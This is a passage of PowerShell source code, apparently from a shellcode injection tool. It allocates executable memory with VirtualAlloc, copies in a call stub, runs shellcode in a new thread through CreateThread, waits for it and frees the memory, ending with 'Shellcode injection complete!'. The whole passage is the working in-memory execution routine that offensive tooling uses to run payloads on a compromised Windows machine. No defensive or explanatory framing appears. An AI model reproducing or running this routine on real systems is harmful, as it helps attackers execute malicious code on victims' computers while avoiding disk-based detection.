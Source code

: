         # Get address of ExitThread function
        $ExitThreadAddr = Get-ProcAddress kernel32.dll ExitThread
        
        if ($PowerShell32bit)
        {
            $CallStub = Emit-CallThreadStub $BaseAddress $ExitThreadAddr 32
            
            Write-Verbose 'Emitting 32-bit assembly call stub.'
        }
        else
        {
            $CallStub = Emit-CallThreadStub $BaseAddress $ExitThreadAddr 64
            
            Write-Verbose 'Emitting 64-bit assembly call stub.'
        }

        # Allocate RWX memory for the thread call stub
        $CallStubAddress = $VirtualAlloc.Invoke([IntPtr]::Zero, $CallStub.Length + 1, 0x3000, 0x40) # (Reserve|Commit, RWX)
        if (!$CallStubAddress)
        {
            Throw "Unable to allocate thread call stub."
        }
        
        Write-Verbose "Thread call stub memory reserved at 0x$($CallStubAddress.ToString("X$([IntPtr]::Size*2)"))"

        # Copy call stub to RWX buffer
        [System.Runtime.InteropServices.Marshal]::Copy($CallStub, 0, $CallStubAddress, $CallStub.Length)

        # Launch shellcode in it's own thread
        $ThreadHandle = $CreateThread.Invoke([IntPtr]::Zero, 0, $CallStubAddress, $BaseAddress, 0, [IntPtr]::Zero)
        if (!$ThreadHandle)
        {
            Throw "Unable to launch thread."
        }

        # Wait for shellcode thread to terminate
        $WaitForSingleObject.Invoke($ThreadHandle, 0xFFFFFFFF) | Out-Null
        
        $VirtualFree.Invoke($CallStubAddress, $CallStub.Length + 1, 0x8000) | Out-Null # MEM_RELEASE (0x8000)
        $VirtualFree.Invoke($BaseAddress, $Shellcode.Length + 1, 0x8000) | Out-Null # MEM_RELEASE (0x8000)

        Write-Verbose 'Shellcode injection complete!'
    }
